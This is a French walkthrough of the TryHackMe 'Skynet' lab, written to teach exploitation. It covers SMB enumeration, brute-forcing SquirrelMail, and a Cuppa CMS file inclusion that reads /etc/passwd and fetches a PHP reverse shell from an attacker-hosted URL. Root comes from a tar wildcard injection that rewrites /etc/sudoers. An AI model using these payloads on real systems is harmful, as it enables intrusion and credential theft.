# 🤖 Skynet - Walkthrough

🔗 **Room TryHackMe :** [Skynet](https://tryhackme.com/room/skynet)

```diff
> scanner la grille • fouiller les partages • voler la boite mail • faire trahir cron
```

---

## ℹ️ Informations

- **Plateforme :** TryHackMe
- **Difficulté :** facile
- **Thème :** Terminator, Skynet, et assez de mauvaise sécurité opérationnelle pour fatiguer un T-800
- **Objectif :** obtenir un shell utilisateur, récupérer `user.txt`, escalader en `root`, puis récupérer `root.txt`
- **Services principaux :** SSH, HTTP, POP3, IMAP, SMB

---

## 🧠 Reconnaissance

### Scan des ports

On commence par identifier les services exposés :

```bash
nmap -sC -sV -p- skynet.thm
```

Résultats importants :

```text
22/tcp  open  ssh           OpenSSH 7.2p2 Ubuntu
80/tcp  open  http          Apache/2.4.18 (Ubuntu)
110/tcp open  pop3          Dovecot pop3d
139/tcp open  netbios-ssn
143/tcp open  imap          Dovecot imapd
445/tcp open  microsoft-ds
```

La cible parle beaucoup. HTTP est présent, mais SMB et les services mail attirent tout de suite l'attention. Quand une machine CTF expose SMB, mail et une application web, il faut penser aux identifiants qui se baladent, aux mots de passe réutilisés, aux notes internes oubliées, bref, à tout ce que les humains font mieux que les robots.

👉 **Insight :**
La surface d'attaque ne se limite pas au site web. Skynet est un puzzle entre plusieurs services. Le web devient important plus tard, mais la première piste lumineuse est SMB.

---

## 📁 Énumération SMB

### Enum4Linux

On lance une énumération SMB complète :

```bash
enum4linux -a skynet.thm
```

Les résultats intéressants :

```text
user:[milesdyson] rid:[0x3e8]

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
anonymous       Disk      Skynet Anonymous Share
milesdyson      Disk      Miles Dyson Personal Share
IPC$            IPC       IPC Service
```

On apprend donc deux choses importantes :

- un utilisateur local existe : `milesdyson`
- le partage SMB `anonymous` est accessible sans identifiants

En langage CTF, c'est presque une invitation avec des néons roses.

### Partage anonymous

On liste les partages :

```bash
smbclient -L //skynet.thm -N
```

Puis on se connecte au partage anonyme :

```bash
smbclient //skynet.thm/anonymous -N
```

Contenu du partage :

```text
attention.txt
logs/
```

On récupère les fichiers :

```bash
get attention.txt
cd logs
get log1.txt
get log2.txt
get log3.txt
```



`log1.txt` contient une liste de mots de passe possibles. `attention.txt` indique que des mots de passe ont été changés. Avec un nom d'utilisateur, une liste de mots de passe et un webmail exposé, la suite commence à sentir la compromission artisanale.

---

## 📬 Accès au webmail

### Découverte de répertoires

On énumère le serveur web :

```bash
dirsearch -u http://skynet.thm/
```

Chemins intéressants :

```text
/admin
/config
/squirrelmail
```

Le chemin important :

```text
http://skynet.thm/squirrelmail/
```



### Test des mots de passe

On utilise l'utilisateur découvert via SMB :

```text
milesdyson
```

Puis on teste les mots de passe de `log1.txt` sur la page SquirrelMail. Burp Suite est pratique ici, car il permet de rejouer la requête de connexion avec la liste de candidats.



Mot de passe valide :

```text
cyborg007haloterminator
```

Dans la boite mail, un message contient le mot de passe SMB de Miles Dyson :

```text
)s{A&2Z=F^n_E.B
```

👉 **Insight :**
La réutilisation de mots de passe est le petit moteur sombre de cette étape. Le mot de passe du webmail ouvre la boite mail, et la boite mail donne le mot de passe SMB. Skynet ne se rebelle pas, il transfère ses secrets.

---

## 🔐 Partage SMB de Miles Dyson

Connexion au partage privé :

```bash
smbclient //skynet.thm/milesdyson -U milesdyson
```

Mot de passe récupéré dans le webmail :

```text
)s{A&2Z=F^n_E.B
```

Le partage contient plusieurs PDF et un dossier `notes` :

```text
Improving Deep Neural Networks.pdf
Natural Language Processing-Building Sequence Models.pdf
Convolutional Neural Networks-CNN.pdf
notes/
Neural Networks and Deep Learning.pdf
Structuring your Machine Learning Project.pdf
```

Dans `notes`, on récupère `important.txt` :

```bash
cd notes
get important.txt
```

Le fichier contient le prochain chemin web :

```text
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```



On visite :

```text
http://skynet.thm/45kra24zxs28v3yd/
```

À première vue, rien d'évident. Ce qui, dans une CTF, veut souvent dire : "s'il te plait, énumère encore."

---

## 🧭 Énumération du CMS caché

On lance Gobuster sur le chemin caché :

```bash
gobuster dir -u http://skynet.thm/45kra24zxs28v3yd/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -x php,html,txt -t 50
```

Résultat intéressant :

```text
/index.html       (Status: 200)
/administrator    (Status: 301)
```

On ouvre le panneau d'administration :

```text
http://skynet.thm/45kra24zxs28v3yd/administrator/
```



L'interface indique qu'il s'agit de **Cuppa CMS**.

Recherche d'exploit public :

```bash
searchsploit cuppa cms
```

Résultat :

```text
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
```

👉 **Insight :**
C'est le point de bascule. On passe de la chasse aux identifiants à l'exploitation web. Cuppa CMS possède une inclusion de fichier, et ce type de bug adore devenir un shell quand un payload distant est accessible.

---

## 🧪 Exploitation

### Confirmer l'inclusion de fichier

On teste une inclusion locale en lisant `/etc/passwd` :

```text
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```



Si `/etc/passwd` s'affiche dans le navigateur, le paramètre vulnérable est confirmé :

```text
urlConfig
```

### Préparer le reverse shell PHP

On utilise un reverse shell PHP, par exemple celui de Laudanum :

```bash
cp /usr/share/laudanum/php/php-reverse-shell.php .
```

On modifie l'adresse IP et le port avec l'IP VPN TryHackMe de la machine d'attaque :

```php
$ip = '<IP_ATTAQUANT>';
$port = 443;
```



On lance un serveur web Python dans le dossier contenant le shell :

```bash
python3 -m http.server 80
```



On lance ensuite un listener Netcat :

```bash
nc -nvlp 443
```

### Déclencher l'inclusion distante

On pointe le paramètre vulnérable `urlConfig` vers le reverse shell hébergé :

```text
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<IP_ATTAQUANT>/php-reverse-shell.php
```



Le serveur Python montre que la cible récupère le payload :



Et le listener reçoit un shell :



👉 **Insight :**
L'application inclut un fichier PHP distant, le serveur l'exécute, et le shell revient vers nous. Une mise à jour logicielle très hostile, en somme.

---

## 🚩 Flag utilisateur

Avec un shell en tant que `www-data`, on se déplace dans le système et on lit le flag utilisateur :

```bash
cd /home/milesdyson
cat user.txt
```



La valeur du flag n'est pas affichée ici. Le but est de publier la méthode, pas de transformer le README en distributeur automatique de réponses.

---

## ⬆️ Escalade de privilèges

### Trouver le job de sauvegarde

On liste le dossier personnel de Miles Dyson :

```bash
ls -la /home/milesdyson
```



On remarque un dossier `backups`. À l'intérieur :

```bash
cat /home/milesdyson/backups/backup.sh
```



Le script sauvegarde `/var/www/html`. Le détail important : il est exécuté par `root` via cron.

```bash
cat /etc/crontab
```



Entrée cron :

```text
root    /home/milesdyson/backups/backup.sh
```

On a donc un script exécuté par root qui archive un dossier web modifiable par `www-data`.

### Injection tar avec checkpoint

Le script utilise `tar` avec un wildcard. Si un attaquant peut créer des fichiers dont les noms ressemblent à des options `tar`, ces noms peuvent être interprétés comme arguments. C'est tout petit, c'est sale, et c'est exactement ce qu'il nous faut.

On se place dans la racine web :

```bash
cd /var/www/html
```

On crée un payload qui donne à `www-data` un accès sudo sans mot de passe :

```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > exploit.sh
```

On crée les noms de fichiers malveillants pour `tar` :

```bash
echo "/var/www/html" > "--checkpoint-action=exec=sh exploit.sh"
echo "/var/www/html" > "--checkpoint=1"
```

On attend que le cron s'exécute, puis on vérifie les droits sudo :

```bash
sudo -l
```

Résultat attendu :

```text
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
```

On devient root :

```bash
sudo bash
```

👉 **Insight :**
C'est une escalade classique avec wildcard `tar`. Le vrai problème n'est pas `tar` tout seul, c'est le fait d'exécuter une archive avec wildcard en root dans un dossier modifiable par un utilisateur moins privilégié.

---

## 👑 Flag root

On lit le flag root :

```bash
cat /root/root.txt
```

Comme pour le flag utilisateur, la valeur est volontairement masquée dans la version publique.

---

## 🧠 Conclusion

Skynet pratique une chaîne très satisfaisante :

- l'énumération SMB révèle des utilisateurs et des partages lisibles
- les partages anonymes contiennent souvent des fichiers "temporaires" devenus preuves permanentes
- le webmail peut exposer des identifiants pour d'autres services
- les chemins CMS cachés doivent être énumérés comme n'importe quel répertoire web
- l'inclusion de fichier dans Cuppa CMS peut devenir une exécution de code
- les jobs cron exécutés en root méritent toujours un regard suspicieux
- les dossiers modifiables plus les wildcards `tar` peuvent ouvrir la porte à root

---

```diff
> partage anonymous vers mailbox • mailbox vers SMB • SMB vers CMS • CMS vers shell • cron vers root
```

## 🔗 Références

- [TryHackMe - Skynet](https://tryhackme.com/room/skynet)
- [Exploit-DB - Cuppa CMS File Inclusion](https://www.exploit-db.com/exploits/25971)
- [GTFOBins - tar](https://gtfobins.github.io/gtfobins/tar/)
- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)

---

Les notes brutes de résolution sont conservées dans [Notes.md](Notes.md).
